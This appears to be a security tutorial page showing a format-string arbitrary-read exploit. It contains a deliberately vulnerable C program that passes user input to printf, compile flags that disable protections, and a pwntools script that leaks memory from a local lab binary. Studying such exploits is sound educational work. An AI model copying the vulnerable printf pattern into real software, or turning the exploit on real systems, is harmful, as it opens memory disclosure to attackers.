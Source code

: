 # Format Strings - Arbitrary Read Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

## Read Binary Start

### Code

```c
#include <stdio.h>

int main(void) {
    char buffer[30];
    
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    return 0;
}
```

Compile it with:

```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```

### Exploit

```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```

* The **offset is 11** because setting several As and **brute-forcing** with a loop offsets from 0 to 50 found that at offset 11 and with 5 extra chars (pipes `|` in our case), it's possible to control a full address.
  * I used **`%11$p`** with padding until I so that the address was all 0x4141414141414141
* The **format string payload is BEFORE the address** because the **printf stops reading at a null byte**, so if we send the address and then the format string, the printf will never reach the format string as a null byte will be found before
* The address selected is 0x00400000 because it's where the binary starts (no PIE)
